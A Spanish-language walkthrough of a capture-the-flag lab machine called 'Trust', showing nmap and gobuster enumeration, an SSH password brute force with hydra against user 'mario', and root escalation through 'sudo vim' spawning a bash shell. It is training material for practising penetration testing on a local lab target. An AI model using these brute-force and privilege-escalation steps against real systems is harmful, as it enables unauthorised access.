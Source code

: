 # Trust

## Reconocimiento y Enumeración

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos #nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

```

Como tenemos abiertos los puertos 22 y 80, vamos a comprobar las versiones y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p22,80 -vvv -oN versionPorts 172.17.0.2
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p22,80`: Escaneo de los puertos 22 (SSH) y 80 (HTTP).
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHjaznpuQYsT/kxLXSVDFJGTtesV6UrUh5aNJhw+tAdr19MnZpuY/8e0gb+NXRebo5Dcv/DP1H+aLFHaS6+XCGw=
|   256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJW/dREGeklk/wsHXisOmbmVwP9zg7U8xS+OfHkxLF0Z
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.57 ((Debian))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
No vemos nada que nos llame la atención así que empezaremos la enumeración del puerto 80, y como vemos que el título ya nos muestra que es la página principal de Apaches por lo que lanzamos #gobuster para ir haciendo fuzzing.

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php, txt, html
```
- `dir`: Indica que se realizará un escaneo de directorios.
- `-u http://172.17.0.2/`: Especifica la URL objetivo a escanear.
- `-w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt`: Especifica la lista de palabras clave a utilizar para la búsqueda de directorios. En este caso, se utiliza el archivo "directory-list-2.3-medium.txt" como lista de palabras clave.
- `-x php,txt,html`: Especifica las extensiones de archivo a buscar dentro de los directorios encontrados. En este caso, se buscarán archivos con extensiones ".php", ".txt" y ".html".
- 
```bash
❯ gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php, txt, html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.                    (Status: 200) [Size: 10701]
/secret.php           (Status: 200) [Size: 927]
/.php                 (Status: 403) [Size: 275]
/.                    (Status: 200) [Size: 10701]
/server-status        (Status: 403) [Size: 275]

```


Encontramos una página que nos llama la atención, que es **/secret.php**.

En la página http://172.17.0.2/secret.php encontramos un mensaje de lo que podemos pensar que **Mario** podría ser un usuario. Como tenemos el puerto 22 abierto, podríamos probar la intrusión por fuerza bruta con #hydra.

## Explotación

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
- `-l mario`: Especifica el nombre de usuario "mario" para el intento de inicio de sesión.
- `-P /usr/share/wordlists/rockyou.txt`: Especifica la ubicación del archivo de contraseñas a utilizar. En este caso, se utiliza el archivo "rockyou.txt" como lista de contraseñas.
- `ssh://172.17.0.2`: Indica el protocolo a utilizar (`ssh`) y la dirección IP del host objetivo (`172.17.0.2`). Esto establece el destino del intento de inicio de sesión mediante SSH.

Con #hydra encontramos la contraseña para el usuario *mario* por el puerto 22.
```bash
❯ hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-11 11:20:24
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-11 11:20:36
```

Nos conectamos por ssh como el usuario mario y tenemos acceso a la máquina.

```bash
ssh mario@172.17.0.2
```

```bash
❯ ssh mario@172.17.0.2

mario@172.17.0.2's password: 

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Mar 20 09:54:46 2024 from 192.168.0.21
mario@49a6455029e0:~$ 
```

Una vez dentro para escalar privilegios, vamos a probar si hay algún archivo que podamos ejecutar como mario pero con permisos de root.

```bash
sudo -l
```

```bash
mario@49a6455029e0:~$ sudo -l
[sudo] password for mario: 
Matching Defaults entries for mario on 49a6455029e0:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 49a6455029e0:
    (ALL) /usr/bin/vim
```

Encontramos que podemos ejecutar el editor de texto vim, y desde ahí se puede lanzar una bash con permiso privilegiado, poniendo :!/bin/bash.

```bash
sudo vim -c ':!/bin/bash'
```

Y con esto ya tenemos una consola como root.

```bash
root@49a6455029e0:/home/mario# whoami
root
```

